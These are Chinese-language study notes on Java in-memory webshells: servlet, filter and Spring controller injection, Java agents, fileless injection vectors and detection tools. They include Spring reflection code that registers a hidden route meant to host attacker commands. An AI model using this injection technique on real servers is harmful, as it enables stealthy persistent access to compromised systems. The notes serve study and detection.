

# java 内存马专栏

## servlet内存马

定义：servlet 就是一个接口 访问接口会去从对应的类生成对象，并动态执行里面的方法
或者说：servlet 就是一个接口，定义了java 类被浏览器访问到（tomcat 识别）的规则，写的java类只要实现对应的接口就可以被tomcat识别，不仅是tomcat,还有其他可以支持servlet的web框架
**将来我们自定义一个类，实现servlet接口，复写方法 就可以称为servlet**

servlet 在tomcat 中用web.xml 配置
只需要实现servelet的里面的逻辑就行，class 调用和对象创建都由tomcat实现，tomcat 中有Servlet的引擎，可以调用servlet （servlet中是没用main方法的，需要容器去调用），只有在servlet的容器里才能转化为内存里的实例


servlet 和jsp的关系:jsp是前后端代码合一，在访问时候会被转化成.java,然后编译生成servlet

### java web三大组件

三大组件的调用关系：


#### servlet

实际处理请求的部分
一个servlet就是一个接口路径，里面对应者接口处理的功能

#### Filter

- 实现doFilter()方法，在doFilter 方法里面做文章，实现内存马
- 请求会经过过滤器，过滤器可以是一层也可以是多层
- 响应的返回也会经过过滤器，在处理逻辑上做文章可以实现执行

过滤器中必须实现3个方法：init()   doFilter()  destory()
过滤器在tomcat启动的时候创建，在tomcat 停止的时候销毁，在tomcat 启动的时候会把所有的过滤器进行初始化

#### listener

主要是监听事件做出响应，通过实现不同的接口作为不同的listener 类型


---

**servlet内存马的本质就是注入一个自己创建的组件，执行恶意代码的功能**
获取context的对象，之后使用context对象的动态添加组件的功能添加对应的组件，如添加恶意的listener，执行收到请求中带的命令参数

常见的注入流程：将添内存马的文件加到服务器上然后去访问，生成内存马

不同框架，不同的内存马获取的context是不同的

## Servlet 形内存马

一个注入内存马的jsp会有以下步骤：

- 获取java和servlet的context,修改属性为可以修改类
- new创建一个evil组件
- 把创建的组件在内存中注入到当前的服务上

**需不需要预先编译？** 内存马不需要预先编译，是在访问的时候才编译进入内存，访问时候也是访问的对应接口（servlet组件），不是访问文件

## 框架类型内存马

Spring 内存马添加思路：

- 添加一个controler，里面实现自己的恶意代码逻辑
- 将controler映射到某个接口

学习项目 https://github.com/dk47os3r/SpringMemShell

下载项目并在tomcat中运行：


获取上下文代码：

```java
@Controller
public class TestController {

    @RequestMapping("/mappings")
    @ResponseBody
    public String mappings(){
        try {
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes()
                    .getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            RequestMappingHandlerMapping rmhMapping = context.getBean(RequestMappingHandlerMapping.class);
            Field _mappingRegistry = AbstractHandlerMethodMapping.class.getDeclaredField("mappingRegistry");
            _mappingRegistry.setAccessible(true);
            Object mappingRegistry = _mappingRegistry.get(rmhMapping);

            Field _registry = mappingRegistry.getClass().getDeclaredField("registry");
            _registry.setAccessible(true);
            HashMap<Object,Object> registry = (HashMap<Object, Object>) _registry.get(mappingRegistry);

            Class<?>[] tempArray = AbstractHandlerMethodMapping.class.getDeclaredClasses();
            Class<?> mappingRegistrationClazz = null;
            for (Class<?> item : tempArray) {
                if (item.getName().equals(
                        "org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistration"
                )) {
                    mappingRegistrationClazz = item;
                }
            }
```

这里使用 `WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes()                     .getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);` 方法获取了web 容器的上下文信息，不同的web容器获取上下文所用的函数不同，是框架中封装好的

`WebApplicationContext` 是 Spring 框架中的一个接口，表示 Web 应用程序的上下文


修改代码以查看 获取到的上下文中的bean

```java
  public String mappings(){
        StringBuilder sb = new StringBuilder();
        sb.append("<pre>");
        try {
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes()
                    .getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            String[] beanNames = context.getBeanDefinitionNames();

            sb.append("Beans in the context:\n");
            for (String beanName : beanNames) {
                sb.append(beanName).append("\n");
            }
            RequestMappingHandlerMapping rmhMapping = context.getBean(RequestMappingHandlerMapping.class);
.......
```


spring bean 概念：

Bean是指一个由Spring容器管理的对象。这个对象可以是任何一个Java类的实例，例如数据库连接、业务逻辑类、控制器等等。Bean实例的创建和管理是由Spring容器负责的，而不是由应用程序本身负责


可以在xml 配置文件中定义bean,并为bean的属性赋值，启动spring 时候会去创建bean的实例，在上面获取bean时候就能获取到（也可以通过注解的方式来创建bean @Component注解 告诉spring这是bean @Value 注解对bean的属性进行赋值）

格式化输出代码

```java
 sb.append("<pre>");
            sb.append("| path |").append("\t").append("\t").append("| info |").append("\n");
            for(Map.Entry<Object,Object> entry:registry.entrySet()){
                sb.append("--------------------------------------------");
                sb.append("\n");
                RequestMappingInfo key = (RequestMappingInfo) entry.getKey();
                List<String> tempList = new ArrayList<>(key.getPatternsCondition().getPatterns());
                sb.append(tempList.get(0)).append("\t").append("-->").append("\t");
                Field _handlerMethod = mappingRegistrationClazz.getDeclaredField("handlerMethod");
                _handlerMethod.setAccessible(true);
                HandlerMethod handlerMethod = (HandlerMethod) _handlerMethod.get(entry.getValue());

                Field _desc = handlerMethod.getClass().getDeclaredField("description");
                _desc.setAccessible(true);
                String desc = (String) _desc.get(handlerMethod);
                sb.append(desc);
                sb.append("\n");
            }
            sb.append("</pre>");
```

从mapping 中找到已经注册的各个接口，并返回接口对应的方法

```java
....

    @RequestMapping("/test1")
    @ResponseBody
    public String testeiraaa() {
        try {
            new InjectToController();
        }catch (Exception e){
            e.printStackTrace();
        }
        return "ok";
    }

    @RequestMapping("/test2")
    @ResponseBody
    public String testeirbbb() {
        try {
            new InvisibleShell();
        }catch (Exception e){
            e.printStackTrace();
        }
        return "ok";
    }
}
....
```


**注入内存马部分**：

```java
...
public class InjectToController {
    public InjectToController() throws ClassNotFoundException, IllegalAccessException, NoSuchMethodException, NoSuchFieldException, InvocationTargetException {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Method method2 = InjectToController.class.getMethod("test");
        PatternsRequestCondition url = new PatternsRequestCondition("good");
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        InjectToController injectToController = new InjectToController("aaa");
        mappingHandlerMapping.registerMapping(info, injectToController, method2);
    }
    public InjectToController(String aaa) {}
```

主要步骤分为以下3步

```
RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
```

1.获取到mapping处理方法

```
Method method2 = InjectToController.class.getMethod("test");
```

2.获取到这个类的test 方法

```
RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
InjectToController injectToController = new InjectToController("aaa");
mappingHandlerMapping.registerMapping(info, injectToController, method2);
```

创建一个inject 类，并注册映射：将RequestMappingInfo、InjectToController实例和方法test注册到RequestMappingHandlerMapping中。


```
@RequestMapping("/test1")
@ResponseBody
public String test1() {
    try {
        new InjectToController();
    }catch (Exception e){
        e.printStackTrace();
    }
    return "ok";
}
```

这时，我们访问test1接口就能成功执行对应功能，将方法成功注册，其中InjectToController 类中的test()就是我们要执行的恶意代码，比如接受参数的shell


这是再次查看mapping，就会发现多了个接口good，绑定的是恶意类的恶意方法


隐形马（劫持马）：

大体原理和上面的相同不同的是，会遍历springboot的mappings，找到要改的接口，通过反射修改属性，将接口功能重新绑定到指定的函数上。

简单总结下框架类型的内存马是与框架的功能、组件、底层类的调用紧密相关不同的框架里内存马具体实现调用的类不同

## Agent 内存马

### java agent 技术 （instrumentation）

AgentDemo工程

一个javaagent 里面有permain方法和  agentmain方法，如果使用jvm参数  -javaagent:xxx.jar  指定agent 会去调用agnet的premanin方法，如果使用attach方式挂载目标进程，需要把进程号给到agent，会去调用agent的agentmain方法。

premain 方法会去直接修在内存中修改改字节码，类的内容。


#### java 字节码前置知识

java 一大优势：平台无关性：有java 创建自己的jvm环境作为抽象层，java字节码文件可以在java 虚拟机中直接执行,java源文件在被[编译器](https://so.csdn.net/so/search?q=%E7%BC%96%E8%AF%91%E5%99%A8&spm=1001.2101.3001.7020)编译之后，每个类（或者接口）都单独占据一个字节码文件。类中所有信息都在字节码文件中有所描述，由于字节码文件非常灵活，它对类的描述能力甚至强于java源文件。


java 类编译后会生成对应的.class 文件，可以放入010editor 中查看，也可以用 javap -v xxx.class 进行反编译查看主要结构为

- MagicNumber 魔数
- Version 版本 分为主版本和次版本
- Constant_pool  常量池
- Access_flag 当前类的更稳权限包括了public private protected 等
- This_class 当前类全局限定名在常量池中的索引
- super_class  当前类的父类全局限定名在常量池中的索引
- interface  保存当前类实现的接口列表 （理论上一个类最多实现65535个接口）

dog 类代码：

```
package reflectionlearn;

public class dog {

}

```

```
 Last modified 2024年11月2日; size 266 bytes
  SHA-256 checksum a19a1e8394b8c1bdf465b1f6080ff6ab029ddb6efbd063514fc9a43388775a66
  Compiled from "dog.java"
public class reflectionlearn.dog
  minor version: 0
  major version: 61
  flags: (0x0021) ACC_PUBLIC, ACC_SUPER
  this_class: #7                          // reflectionlearn/dog
  super_class: #2                         // java/lang/Object
  interfaces: 0, fields: 0, methods: 1, attributes: 1
Constant pool:
   #1 = Methodref          #2.#3          // java/lang/Object."<init>":()V
   #2 = Class              #4             // java/lang/Object
   #3 = NameAndType        #5:#6          // "<init>":()V
   #4 = Utf8               java/lang/Object
   #5 = Utf8               <init>
   #6 = Utf8               ()V
   #7 = Class              #8             // reflectionlearn/dog
   #8 = Utf8               reflectionlearn/dog
   #9 = Utf8               Code
  #10 = Utf8               LineNumberTable
  #11 = Utf8               LocalVariableTable
  #12 = Utf8               this
  #13 = Utf8               Lreflectionlearn/dog;
  #14 = Utf8               SourceFile
  #15 = Utf8               dog.java
{
  public reflectionlearn.dog();
    descriptor: ()V
    flags: (0x0001) ACC_PUBLIC
    Code:
      stack=1, locals=1, args_size=1
         0: aload_0
         1: invokespecial #1                  // Method java/lang/Object."<init>":()V
         4: return
      LineNumberTable:
        line 3: 0
      LocalVariableTable:
        Start  Length  Slot  Name   Signature
            0       5     0  this   Lreflectionlearn/dog;
}
SourceFile: "dog.java"
```

student class 

```
public class reflectionlearn.student
  minor version: 0
  major version: 61
  flags: (0x0021) ACC_PUBLIC, ACC_SUPER
  this_class: #22                         // reflectionlearn/student
  super_class: #2                         // java/lang/Object
  interfaces: 0, fields: 3, methods: 6, attributes: 3
Constant pool:
   #1 = Methodref          #2.#3          // java/lang/Object."<init>":()V
   #2 = Class              #4             // java/lang/Object
   #3 = NameAndType        #5:#6          // "<init>":()V
   #4 = Utf8               java/lang/Object
   #5 = Utf8               <init>
   #6 = Utf8               ()V
   #7 = Fieldref           #8.#9          // java/lang/System.out:Ljava/io/PrintStream;
   #8 = Class              #10            // java/lang/System
   #9 = NameAndType        #11:#12        // out:Ljava/io/PrintStream;
  #10 = Utf8               java/lang/System
  #11 = Utf8               out
  #12 = Utf8               Ljava/io/PrintStream;
  #13 = String             #14            // ========student有参构造方法被调用了==========
```

0个接口 3个fields 6个method


public void show(java.lang.String, int);
    descriptor: (Ljava/lang/String;I)V
    flags: (0x0001) ACC_PUBLIC
    Code:
      stack=2, locals=3, args_size=3
         0: getstatic     #7                  // Field java/lang/System.out:Ljava/io/PrintStream;
         3: ldc           #44                 // String ========student 有参公有show方法被调用了==========
         5: invokevirtual #15                 // Method java/io/PrintStream.println:(Ljava/lang/String;)V
         8: return
      LineNumberTable:
        line 26: 0
        line 27: 8
      LocalVariableTable:
        Start  Length  Slot  Name   Signature
            0       9     0  this   Lreflectionlearn/student;
            0       9     1   str   Ljava/lang/String;
            0       9     2   num   I


* **stack=2** ：表示执行时操作栈的最大深度为2。
* **locals=3** ：表示该方法使用了3个局部变量。
* **args_size=3** ：表示该方法的参数数量为3，包括 `this`引用和两个方法参数。


jvm 的堆栈设计


#### java 访问者设计模式

访问者设计模式用于封装一些作用于某种数据结构中的各元素的操作，可以在不改变数据结构的前提下定义作用域这些元素的新的操作，新的操作指令在访问器中实现

对相同数据，不同实现visitor接口的对象拿取和处理的方式不同

```

```


#### java ASM 字节码操作框架（字节码插桩）

asm是java的一个库

能做什么： 通过修改字节码动态的添加，而不需要改到原文件（无侵入性）

主要类：

- Classreader 读取class 文件
- Classvisior  对操作class
- Classrwriter 将结果写回class


## 内存马的注入方式

- servlet类型内存马，需要借助于.jsp文件
- Spring内存马，需要借助于java代码
- tomcat 内存马，需要借助于.jar文件

无文件注入内存马：需要有漏洞可以在服务器上**执行任意代码，不依赖于文件（RCE)**

- fastjson (反序列化 JNDI)   参考【JNDI 专栏】
- Spring Cloud Gateway (创建恶意路由)
- Log4J2 (JNDI) 需要有一个class文件被下载，不算完全的无文件落地
- Shiro(反序列化，真正的无文件)
- FreeMarker(SSTI 真正的无文件）
- .......

## 内存马的检测

### 内存马的检测思路

1.通过java引用的接口，获取tomcat JVM 里面加载的类
2. 遍历所有类，判断是否为风险类（实现了listener，filter, servlet，spring controller 接口的类）：

- 内存注册，但是磁盘没有文件（劫持/隐形马是改了原有的类，类名不变，这种方式不好查）
- 内存的class dump下来查看里面是有有包含恶意内容，如命令执行等等

sa-jdi  jdk 自带，可以和agent 一样进入内存读取当前所有的java类，需要给进程号让它去attach

### 工具查杀

sa-jdi  jdk 自带，可以和agent 一样进入内存读取当前所有的java类，需要给进程号让它去attach

shell-analyzer

NoAgent-memshell-scanner

arthas

cop.jar

放张图


